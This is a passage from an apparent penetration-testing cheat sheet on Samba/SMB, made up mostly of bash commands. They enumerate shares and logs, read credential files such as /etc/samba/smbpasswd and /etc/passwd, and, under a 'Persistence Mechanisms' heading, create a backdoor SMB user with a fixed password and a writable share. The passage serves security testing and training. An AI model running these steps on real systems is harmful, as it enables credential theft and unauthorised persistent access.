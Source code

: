 ### File System Analysis
```bash
# SMB share directories
ls -la /var/samba/
ls -la /home/samba/
find / -name "*smb*" -type d 2>/dev/null

# Configuration files
find /etc -name "*smb*" -o -name "*samba*" 2>/dev/null
cat /etc/samba/smb.conf
cat /etc/samba/smbpasswd

# Log files
tail -50 /var/log/samba/log.smbd
tail -50 /var/log/samba/log.nmbd
grep -i error /var/log/samba/*
```

### User and Permission Analysis
```bash
# SMB users
pdbedit -L -v
cat /etc/samba/smbpasswd

# System users
cat /etc/passwd | grep -E "(samba|smb)"
cat /etc/group | grep -E "(samba|smb)"

# Home directories
ls -la /home/
find /home -type f -name "*.txt" -o -name "*.doc*" 2>/dev/null
```

---

## 🔧 Advanced Exploitation Techniques

### Persistence Mechanisms

#### SMB User Creation
```bash
# Create new SMB user (if root access)
useradd -m -s /bin/bash smbuser
echo "smbuser:SecurePass123" | chpasswd

# Add to Samba
smbpasswd -a smbuser
smbpasswd -e smbuser

# Add to SMB configuration
echo "[smbuser_share]" >> /etc/samba/smb.conf
echo "path = /home/smbuser" >> /etc/samba/smb.conf
echo "valid users = smbuser" >> /etc/samba/smb.conf
echo "writable = yes" >> /etc/samba/smb.conf

# Restart Samba services
systemctl restart smbd nmbd
```
